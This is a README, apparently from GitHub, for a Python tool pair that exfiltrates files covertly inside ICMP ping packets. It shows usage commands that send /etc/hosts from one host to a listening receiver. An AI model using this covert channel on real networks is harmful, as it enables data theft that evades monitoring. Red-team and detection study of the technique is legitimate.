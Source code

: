# ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py vmnet8

[*] Listening for any incoming connections...

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

